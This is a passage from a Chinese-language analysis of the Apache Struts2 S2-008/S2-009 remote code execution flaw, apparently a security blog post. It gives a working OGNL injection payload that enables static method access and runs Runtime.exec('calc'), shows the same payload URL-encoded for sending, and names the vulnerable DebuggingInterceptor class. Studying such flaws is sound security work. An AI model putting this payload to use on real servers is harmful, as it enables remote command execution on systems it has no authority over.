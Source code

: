 然后按照惯例弹个计算器，payload

```
(#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('calc').getInputStream()))
```

传入前记得编码

```
%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29.getInputStream%28%29%29%29
```

![](Struts2-命令-代码执行漏洞分析系列-S2-008-S2-009\3.png)



## 漏洞分析

感觉没有什么太多好分析的，触发地址

```
S2-008/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/interceptor/debugging/DebuggingInterceptor.class:87
```
